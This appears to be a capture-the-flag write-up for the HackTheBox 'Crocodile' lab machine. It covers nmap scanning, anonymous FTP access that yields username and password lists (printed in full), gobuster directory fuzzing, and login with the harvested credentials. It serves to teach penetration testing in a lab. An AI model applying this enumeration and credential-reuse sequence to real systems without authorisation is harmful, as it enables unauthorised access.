 ```yaml
---
title: "HackTheBox - Crocodile"
date: 2023-12-27 09:57:00 +0700
categories: [HackTheBox, Starting Point]
tags: [very easy, web, ftp]
image:
    path: /assets/img/htb/Crocodile.png
    alt: Crocodile - HackTheBox
---
```


[**Crocodile**](https://app.hackthebox.com/starting-point) is one of the Starting Points from [**HackTheBox**](https://app.hackthebox.com/), where in CTF Crocodile we will learn about **??**.

## Introduction

- Connect **Crocodile** using **Pwnbox** or **OpenVPN**.
- Spawn machine.

## Enumeration

To check the target connection and port, we can use **Ping** and **Nmap**.

### Ping

After spawn machine, we can start with `ping` Target IP.

```bash
❯ ping 10.129.23.227

PING 10.129.23.227 (10.129.23.227) 56(84) bytes of data.
64 bytes from 10.129.23.227: icmp_seq=1 ttl=63 time=222 ms
64 bytes from 10.129.23.227: icmp_seq=2 ttl=63 time=241 ms
64 bytes from 10.129.23.227: icmp_seq=3 ttl=63 time=571 ms
64 bytes from 10.129.23.227: icmp_seq=4 ttl=63 time=260 ms

--- 10.129.23.227 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 222.356/323.275/570.700/143.454 ms
```

### Nmap

Scan ports using `nmap`, `-sV` to display port version info, `-T4` to speed up scanning (the higher the faster [0-5]).

```bash
❯ nmap -sCV -T4 10.129.23.227

Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-27 09:35 WIB
Nmap scan report for JSN.JaringanKU (10.129.23.227)
Host is up (0.24s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE    SERVICE      VERSION
21/tcp   open     ftp          vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp   open     http         Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Smash - Bootstrap Business Template
1077/tcp filtered imgames
1688/tcp filtered nsjtp-data
1971/tcp filtered netop-school
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.07 seconds
```

You can see, there are 5 ports and only 2 are open, 21/tcp which is the ftp service and 80/tcp which is the http service.

If analyzed more deeply, in the ftp section `anonymous` login is allowed, and there are 2 files, let's take them.

### FTP

```bash
❯ ftp 10.129.23.227

Connected to 10.129.23.227.
220 (vsFTPd 3.0.3)
Name (10.129.23.227:huda): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.

ftp> get allowed.userlist
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
226 Transfer complete.
33 bytes received in 0,000122 seconds (264 kbytes/s)

ftp> get allowed.userlist.passwd
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
226 Transfer complete.
62 bytes received in 0,000132 seconds (459 kbytes/s)
```

After that read the file.

```
aron
pwnmeow
egotisticalsw
admin
```
{: file='allowed.userlist'}

```
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```
{: file='allowed.userlist.passwd'}

OK, let's try logging in to FTP using one of these users.

```bash
❯ ftp 10.129.23.227

Connected to 10.129.23.227.
220 (vsFTPd 3.0.3)
Name (10.129.23.227:huda): admin
530 This FTP server is anonymous only.
ftp: Login failed.
ftp> 
```

And the result cannot be that only `anonymous` users can log in, it is possible that the user is for the http service. Let's go to the website.

## Foothold

After entering the web, we are presented with the main web display, and after investigating there are no tabs leading to the login page, therefore we will fuzz the web using `gobuster`

![Desktop View](/assets/img/htb/include/Crocodile-1.png){: .w-75}

### Gobuster

`dir` is used to scan directories, `-u` is used to scan the destination URL, `-w` is used as a wordlist/words that may be in the destination URL, and `-x` is used to scan extensions

```bash
❯ gobuster dir -u http://10.129.23.227/ -w /usr/share/dirbuster/directory-list-2.3-small.txt -x php,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.23.227/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 58565]
/login.php            (Status: 200) [Size: 1577]
/assets               (Status: 301) [Size: 315] [--> http://10.129.23.227/assets/]
/css                  (Status: 301) [Size: 312] [--> http://10.129.23.227/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.129.23.227/js/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/config.php           (Status: 200) [Size: 0]
Progress: 7600 / 262995 (2.89%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 7606 / 262995 (2.89%)
===============================================================
Finished
===============================================================
```

We can see, there is login.php. Come on, go back to the website. Login with the username and password provided in the file earlier.

![Desktop View](/assets/img/htb/include/Crocodile-2.png){: .w-75}
![Desktop View](/assets/img/htb/include/Crocodile-3.png){: .w-75}